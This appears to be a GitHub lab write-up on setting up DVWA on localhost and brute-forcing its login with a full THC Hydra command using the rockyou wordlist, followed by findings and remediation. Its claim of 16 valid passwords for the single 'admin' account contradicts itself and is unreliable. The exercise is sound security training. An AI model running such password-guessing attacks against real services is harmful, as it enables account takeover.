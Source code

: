 #### **Step 5: Initialize the database**

1. Go to: `http://localhost:8080/setup.php`
2. Click **“Create / Reset Database”**
3. Login again at `http://localhost:8080/login.php`

---

---

### 🧠 Notes

* DVWA intentionally contains **security vulnerabilities**.
* Use **only** in an isolated environment (like a VM or Docker).
* Never expose DVWA to the public internet.

---
# Hydra Brute Force Assessment

## Test Configuration
**Tool**: THC Hydra v9.5  
**Target**: DVWA Brute Force Module  
**Command**: 
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost http-post-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=incorrect"
```

## Results
<img width="1668" height="588" alt="image" src="https://github.com/user-attachments/assets/bec9aac4-29b7-415e-ac6f-12da9c5c56fa" />

**16 valid passwords identified:**
- 123456
- password
- 123456789
- princess
- iloveyou
- [12 more...]

## Critical Vulnerabilities
- No account lockout
- No rate limiting
- Weak passwords allowed

## 🛡️ Remediation
- Implement account lockout
- Enforce strong passwords
- Add rate limiting
